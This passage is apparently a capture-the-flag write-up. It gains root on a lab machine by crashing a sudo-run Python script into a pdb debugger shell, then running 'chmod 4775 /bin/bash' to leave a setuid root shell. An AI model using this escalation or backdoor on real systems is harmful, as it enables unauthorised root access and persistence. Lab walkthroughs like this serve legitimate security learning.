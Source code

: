 The last part of this script is quite interesting. We can see that the user gets to choose from a menu. Choices are 1 to 4. And there is also no default choice. So if one was to choose "a" for example we will crash the script and land in a pdb.post_mortem shell. This could payout for us.

So we need to ssh sessions for this.

In the first ssh session we start the script like:

```bash
user@forge:~$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:5959
```

In a second session we trigger the bug connecting to the socket and choose "a" from the menu. The password we need to enter one can find in the script itself.

```bash
user@forge:~$ nc localhost 5959
Enter the secret password: secretadminpassword
Welcome admin!

What do you wanna do:
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
a
```

After triggering we can look at our first session and have an interactive shell there.

```
invalid literal for int() with base 10: b'a'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) 1+1
2
(Pdb) import os
(Pdb) os.system("id")
uid=0(root) gid=0(root) groups=0(root)
(Pdb) os.system("chmod 4775 /bin/bash")
(Pdb) exit
```

I chose to modify "/bin/bash" with a setuid bit to gain an interactive shell afterwards.

```bash
user@forge:~$ /bin/bash -p
bash-5.0# id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
bash-5.0# cd /root
bash-5.0# cat root.txt
ae37345dd6a5cf9001c7668496ab77c3
bash-5.0#
```
